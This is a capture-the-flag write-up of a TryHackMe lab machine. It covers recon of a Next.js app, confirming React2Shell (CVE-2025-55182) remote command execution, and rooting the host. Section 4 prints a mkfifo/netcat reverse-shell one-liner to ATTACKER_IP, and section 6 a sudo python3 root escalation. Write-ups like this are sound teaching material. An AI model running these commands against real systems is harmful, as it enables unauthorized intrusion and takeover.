










# Corp Website

**Platform:** TryHackMe | **Level:** Medium | **Category:** Boot2Root

---

## 1. Reconnaissance

The target was a React/Next.js web application running on port `3000`.



Initial enumeration identified the following services:

```bash
sudo nmap -sV -sC -p- 10.49.191.75
```

`Nmap`



```text
22/tcp   open  ssh
3000/tcp open  ppp?
```

`Wappalyzer`



`whatweb`



The web application was running **Next.js 16.0.6** with Turbopack.

Further inspection of the application source code showed that it was using React Server Components (RSC), which made the application a candidate for the **React2Shell vulnerability (CVE-2025-55182)**.

1. Vulnerable Flight Data Structure

```js
self.__next_f.push([1, "0:{\"P\":null,\"b\":\"3WpzTMYEK9QGOeqIBQxrR\",\"c\":[\"\",\"\"],\"q\":\"\",\"i\":false,\"f\":[[[\"\",{\"children\":[\"__PAGE__\",{}]},...]])
```

The flight data contains serialized React elements with "children" arrays that can be manipulated to inject malicious server actions.

2. Server Action References in RSC Payload

```
"2:I[39756,[\"/_next/static/chunks/42879de7b8087bc9.js\"],\"default\"]"
```

These module references (I[...]) indicates server action endpoints that can be called with crafted arguments to achieve RCE.

---

## 2. Identifying React2Shell

I ran a Nuclei scan against the web application to confirm the findings:

```bash
nuclei -u http://10.49.191.75:3000
```

Nuclei identified the target as vulnerable to:

```text
CVE-2025-55182
```



This is the **React2Shell** vulnerability affecting React Server Components.

Since the application was running a vulnerable Next.js version and Nuclei confirmed the vulnerability, I proceeded to manually verify the finding.

---

## 3. Exploiting React2Shell

I captured a request to the application using **Burp Suite** and sent it to Repeater.

I then modified the request body with a React2Shell proof-of-concept JSON payload from a publicly available PoC:

[React2Shell CVE-2025-55182 — Public PoC Writeup](https://ankur-gautam.gitbook.io/writeups/cve/react2shell-cve-2025-55182?utm_source=chatgpt.com)



The server processed the malicious request successfully.

The response confirmed that the vulnerability was exploitable by returning the output of a directory-listing command.

This confirmed **remote command execution** on the target.

---

## 4. Getting a Reverse Shell

After confirming command execution, I replaced the directory-listing command with a reverse-shell command.

I used:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

On my attacking machine, I started a Netcat listener:

```bash
nc -lvnp 4444
```



The target connected back to the listener, giving me an initial shell on the machine.

I then located the first flag:

```bash
find / -type f -name user.txt 2>/dev/null
cat user.txt
```



This revealed the **user flag**.

---

# 5. Privilege Escalation

With initial access obtained, I checked the `sudo` permissions for the current user:

```bash
sudo -l
```

The output showed:



The important line was:

```text
(root) NOPASSWD: /usr/bin/python3
```

This meant that the `daniel` user could execute Python 3 **as root without supplying a password**.

Since Python can execute operating-system commands, this provided a straightforward privilege-escalation path.

---

## 6. Python Privilege Escalation

I used Python to execute a shell with root privileges:

```bash
sudo python3 -c 'import os; os.system("/bin/ash")'
```

Because `python3` was being executed through `sudo` as root, the spawned shell also had root privileges.

I verified the access with:

```bash
whoami
```

which showed that I was now operating as:

```text
root
```

---

## 7. Root Flag

With root access obtained, I retrieved the final flag:

```bash
cat /root/root.txt
```



This revealed the **root flag**.

---

# Attack Chain

The complete attack path was:

```text
Next.js 16.0.6
       │
       ▼
React2Shell (CVE-2025-55182)
       │
       ▼
Remote Command Execution
       │
       ▼
Reverse Shell
       │
       ▼
daniel
       │
       ├── user.txt
       │
       ▼
sudo -l
       │
       ▼
NOPASSWD: /usr/bin/python3
       │
       ▼
Python executed as root
       │
       ▼
Root Shell
       │
       ▼
/root/root.txt
```

# Conclusion

The machine was compromised through a vulnerable **Next.js/React Server Components** implementation affected by **CVE-2025-55182 (React2Shell)**. The vulnerability provided remote command execution, which was used to obtain a reverse shell and retrieve `user.txt`.

Privilege escalation was then achieved through an insecure `sudo` configuration allowing the `daniel` user to execute `/usr/bin/python3` as root without a password. Using Python to spawn a shell resulted in full root access and allowed retrieval of `root.txt`.